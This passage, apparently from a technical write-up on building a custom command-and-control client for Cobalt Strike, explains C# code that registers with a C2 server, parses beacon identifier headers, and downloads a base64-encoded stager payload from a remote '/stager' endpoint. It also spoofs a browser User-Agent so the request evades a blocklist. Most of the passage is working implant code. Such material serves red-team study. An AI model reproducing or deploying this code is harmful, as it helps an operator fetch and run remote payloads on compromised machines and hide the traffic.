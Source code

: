 ```csharp
    {
        Console.Error.WriteLine(e.Message + Environment.NewLine + e.StackTrace);
        return null;
    }
}
```

The main goal of ClientC2 is fetching and executing the stager from ServerC2. It does this in 2 steps. First it sets up a connection and asks for options to configure itself by sending an `OPTIONS` request. ServerC2 will respond with an identifier header `X-Id-Header` and a Beacon identifier header `X-Identifier`. The `X-Id-Header` is used to distinguish requests from ClientC2 from regular HTTP traffic.

```csharp
public bool Connect()
{
    string[] parseHeaders = _client.Options("/beacon", "").Split("\n");
    string idHeader = string.Empty;
    string beaconId = string.Empty;

    foreach(string header in parseHeaders)
    {
        if(header.Contains("X-Id-Header"))
        {
            idHeader = header.Split(" ")[1];
        }
        else if(header.Contains("X-Identifier"))
        {
            beaconId = header.Split(" ")[1];
        }
    }

    if(beaconId != null)
    {
        this.BeaconId = new Guid(beaconId);
        headers.Add(idHeader, this.BeaconId.ToString());
        this.Connected = true;
    }
    else
    {
        this.Connected = false;
    }

    return this.Connected;
}
```

Next it will fetch the stager from the `/stager` endpoint. We configure a custom User Agent to make sure we get past Cobalt Strike's default blocklist and specify the system architecture which is used by Cobalt Strike to determine the type of payload.

```csharp
public byte[] GetStager(string pipeName, bool is64Bit, int taskWaitTime = 100)
{
    var bits = is64Bit ? "x64" : "x86";
    headers.Add("User-Agent", $"Mozilla/5.0 (Windows NT 10.0; {bits}; Trident/7.0; rv:11.0) like Gecko");

    var response = _client.Post("/stager", string.Empty, headers);

    return Convert.FromBase64String(response);
}
```
